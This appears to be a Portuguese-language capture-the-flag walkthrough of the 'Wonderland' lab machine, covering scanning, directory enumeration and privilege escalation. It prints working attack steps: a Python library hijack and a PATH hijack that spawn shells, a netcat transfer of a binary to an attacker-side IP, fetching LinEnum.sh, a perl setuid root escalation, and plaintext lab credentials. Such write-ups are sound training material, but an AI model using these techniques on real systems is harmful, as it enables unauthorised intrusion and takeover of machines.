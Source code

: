# Wonderland
</br>
nmap -n -T4 -sCV 10.10.204.123
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/4792115a-e5d0-4093-9825-262323aa153e)
</br>
Temos duas portas abertas 22(ssh) e 80(http), ja podemos identificar que precisamos descobrir uma credencial para ter acesso a porta ssh. Vamos enumerar o HTTP.
</br>
10.10.204.123
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/f4b6910e-a8e4-4882-9038-fb73ad0359da)
</br>
Logo após vou rodar um goBuster para descobrir os diretórios.
</br>
gobuster dir -u 10.10.204.123 -w /usr/share/wordlists/dirb/common.txt
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/e18bab1b-a12d-45e1-be09-de9fb7114414)
</br>
Descobrimos um repositório chamado /r, vamos acessar ele...
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/9a0a0970-3b08-4321-818c-a80b199df5f6)
</br>
O repositório só me mostrou uma mensagem dizendo para continuar enumerando, vou rodar outro gobuster mas adicionando /r no final.
</br>
gobuster dir -u 10.10.204.123/r -w /usr/share/wordlists/dirb/common.txt
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/d0425998-ca14-4855-b40f-95fee0208740)
</br>
Ele me trouxe um repositório /a, vou tentar acesso a ele...
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/1b7936b1-07a3-4e7b-945e-468ce0936029)
</br>
Ele me retornou uma página com uma mensagem para continuar enumerando, vou rodar outro gobuster mas adicionando /a no final.
</br>
gobuster dir -u 10.10.204.123/r/a -w /usr/share/wordlists/dirb/common.txt
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/613a1753-7c84-40cc-8ef0-8b125254240a)
</br>
Ele me trouxe um repositório /b, percebi que ele tinha criado vários repositórios que no final aparece o nome do Coelho(Rabbit).
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/6c1f0de5-ab98-43d7-99ce-454e6c77b15f)
</br>
Passei letra por letra até completar o nome e as páginas são iguais com exceção da última.
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/4158373b-e27d-4bbd-b597-dd464951a150)
</br>
Só que não tem nada de interessante nesta página só um texto e uma imagem. Então decidi passar página por página utilizando view-source: na url para verificar o código-fonte e identifiquei na última página as credenciais SSH.
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/e6a5d37c-abff-4b23-8bb4-1d7cb1f30de6)
</br>
alice:HowDothTheLittleCrocodileImproveHisShiningTail
</br>
ssh alice@10.10.204.123
</br>
Utilizei o ls -la para verificar o diretórios e encontrei dois arquivos importantes root.txt(sem acesso) e walrus_and_the_carpenter.py
</br>
Acessei com sudo -l para conseguir ler o arquivo e nele tinha um poema e uma função que separava 10 versos aleatórios. Elas estavam sendo armazenadas em uma biblioteca chamada random.
</br>
python3 -c 'import sys; print (sys.path)'
</br>
Descobri também que o arquivo percorre todos os diretórios até encontrar a biblioteca.
</br>
Então criei um arquivo aleatório chamado random.py e coloquei o seguinte código.
</br>
import os
os.system("/bin/bash")
</br>
E logo em seguida executei o script para verificar se minha teoria estava certa.
</br>
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
</br>
E conseguimos acesso a outro usuário.
</br>
Verifiquei o diretório do usuário Rabbit e contem um diretório teaParty com acesso root.
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/ac4d29e4-6b3a-4003-9290-46efc8eb1f15)
</br>
Acessei o diretório ./teaParty e ele me deu data e horário. Testei novamente e ele me mostrou a mesma data só que o horário diferente. Pesquisei em blogs e tive que executar alguns códigos para descobrir esta brecha de tarefas.
</br>
Na minha máquina executei um ouvinte:
</br>
nc -lvnp 4444
</br>
E na máquina com o SSH:
</br>
nc 10.10.133.10 4444 < teaParty
</br>
Esperei um tempo e encerrei o ouvinte e utilizei o ghidra para descompilar e verificar o que houve.
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/6099e05a-a472-4e94-8d6f-9c76a132ff1a)
</br>
Se tratava de um script com automação de data e hora.
</br>
Criei um arquivo date com o seguinte código para ele confundir e executar meu código.
</br>
#!/bin/bash
</br>
/bin/bash
</br>
Depois confirmei se meu arquivo estava funcionando com seguintes códigos:
</br>
export PATH=/tmp:$PATH
echo $PATH
</br>
Agora vou executar o ./teaParty novamente e consegui um escalação de privilégio para o usuário Hatter.
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/06a7aae5-14ff-4c14-a907-85d0c0a70d0a)
</br>
Descobrimos uma senha.
</br>
WhyIsARavenLikeAWritingDesk?
</br>
Após esse ponto eu não tinha mais noção do que fazer pois passei por todos personagens do filme e então dei uma pesquisada e o LinEnum.sh ajuda a enumerar mais a fundo. Em uma pesquisa que eu fiz me mostraram que eu deveria executar os seguintes comandos
</br>
wget http://10.10.204.123:6969/LinEnum.sh
chmod +x LinEnum. eh
./LinEnum. eh
</br>
Obtemos root utilizando o perl com os códigos deste repositório abaixo:
</br>
https://gtfobins.github.io/gtfobins/perl/#capabilities
</br>
$(which perl) -e ‘use POSIX qw(setuid); POSIX::setuid(0); exec “/bin/sh”;’
</br>
Finalmente conseguimos o acesso root e vamos pegar a última bandeira.
</br>
![image](https://github.com/yanfernandess/Wonderland/assets/100174458/7ef41afd-57e7-4023-b88a-7f5fb183d866)


